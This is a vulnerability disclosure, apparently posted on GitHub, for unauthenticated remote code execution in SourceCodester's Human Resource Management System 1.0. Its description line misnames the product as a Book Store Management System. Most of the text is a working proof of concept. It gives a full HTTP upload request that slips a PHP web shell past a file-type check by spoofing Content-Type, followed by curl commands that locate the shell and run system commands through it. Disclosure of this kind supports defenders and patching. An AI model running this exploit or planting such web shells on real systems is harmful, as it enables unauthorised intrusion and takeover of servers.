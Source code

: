 # Human Resource Management System 1.0 Remote Code Execution (Unauthenticated)

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. This vulnerability allows an unauthenticated attacker bypass the upload file restriction and execute arbitrary code via a crafted PHP file.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/controller/employee.php

Analysis source code:

File image must be 1 of 4 stypes was definded

![](images/bypass-restriction.png)

After uploading, the webshell file will be added with some random number in the name.

![](images/file-path-webshell.png)


Proof of Concept:

### 1. Bypass File upload restriction

Bypass check type using `Content-Type: image/jpg` in the upload form.

### 2. Upload web shell without authentication

After analysis the source code, we know that `/hrm/controller/employee.php` allow an unauthorized user access and upload image file.

Let's upload file webshell `leecybersec.php` with `Content-Type: image/jpg` without any authentication.

``` txt
POST /hrm/controller/employee.php?empedit= HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------33759207513109230905790184197
Content-Length: 673
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/hrm/employeeadd.php
Upgrade-Insecure-Requests: 1

-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="empid"

123
-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="pfimg"; filename="leecybersec.php"
Content-Type: image/jpg

<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="submit"


-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="imagefilename"


-----------------------------33759207513109230905790184197--
```

![](images/sent-payload.png)

### 3. Find the uploaded webshell file and get RCE

Go to /hrm/image/ and get webshell name

``` bash
curl localhost/hrm/image/
```

Get remote code execution

``` bash
curl localhost/hrm/image/247245leecybersec.php?cmd=id
```

![](images/find-webshell-rce.png)

#### Discoverer(s)/Credits: NGO VAN TU (@leecybersec)